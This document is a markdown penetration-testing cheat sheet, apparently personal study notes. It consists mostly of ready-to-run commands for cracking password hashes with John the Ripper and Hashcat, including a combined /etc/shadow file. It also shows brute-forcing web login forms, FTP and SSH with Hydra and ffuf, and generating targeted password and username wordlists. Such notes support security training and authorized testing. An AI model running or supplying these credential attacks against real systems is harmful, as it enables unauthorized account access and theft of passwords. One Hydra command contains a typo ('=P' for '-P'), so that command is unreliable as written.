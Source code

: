## Password Cracking
### John The Ripper
#### Crack hash
```bash
john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
```
#### Cracking `/etc/shadow`
```bash
unshadow shadow.txt passwd.txt > unshadowed.txt
```
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
### Hashcat

#### Crack Hash
```bash
hashcat -m hashmode_id pw_hash.txt /usr/share/wordlist/rockyou.txt
```
Learn more about hashmodes [here](https://hashcat.net/wiki/doku.php?id=example_hashes).
### Identify Hash Type
```bash
hash-identifier
```

## Brute Forcing / Dictionary Attack
### Hydra
#### HTML Form
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt target.com http-form-post "/auth/login.php:username=^USER^&password=^PASS^:Invalid username/password combination." -o results.txt -vV
```
#### HTML Form with Fail and Success String
```bash
hydra -L usernames.txt =P /usr/share/wordlists/rockyou.txt target.com -s 8080 http-form-post "/auth/login.php:username=^USER^&password=^PASS^:F=Invalid credentials:S=Login success.:H=Cookie: PHPSESSID=abcd1234" -o results.txt -vV
```
> Note: If results are not showing, such as the page only refreshes if credentials dont match, we can just use an HTML tag as follows: `F=<form name='login'`.
#### FTP
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ftp -s 10021 -o results.txt -vV
```
> Note: We can use the `-C` option for combined credential wordlists (i.e `hydra -C combined-http-auth.txt 10.10.10.10 -s 8080 http-get -o results.txt -vV`)
#### SSH
```bash
hydra -l ssh-admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh -o results.txt -vV
```
### Ffuf
#### Single Wordlist
```bash
ffuf -w wordlist.txt -u <http://target.com/login> -X POST -d "username=admin&password=FUZZ" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
#### Multiple Wordlist
```bash
ffuf -w wordlist.txt:USER,wordlist.txt:PASS -u <http://target.com/login> -X POST -d "username=USER&password=PASS" -b "Cookie Value" -H "Header-Key: HeaderValue" -fc 200
```
## Custom Wordlist
### Generate Password Wordlist Using Hashcat Rules
```bash
hashcat --stdout raw_pw.txt -r /usr/share/hashcat/rules/best64.rule > output.txt
```
### Generate Password Wordlist Using Cupp
```bash
cupp -i # interactive; just follow it
```
### Generate Username Wordlist Using Username-Anarchy
```bash
git clone https://github.com/urbanadventurer/username-anarchy.git

./username-anarchy Bill Gates > bill.txt
```

We can also use tools like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist) to add as many alterations and permutations as possible into our wordlist.

Additionally, we can then use `sed` to further customize the generated wordlist to follow the target's password policy. For example:
```bash
sed -ri '/^.{,7}$/d' custom-password.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' custom-password.txt # remove no special chars
sed -ri '/[0-9]+/!d' custom-password.txt            # remove no numbers
```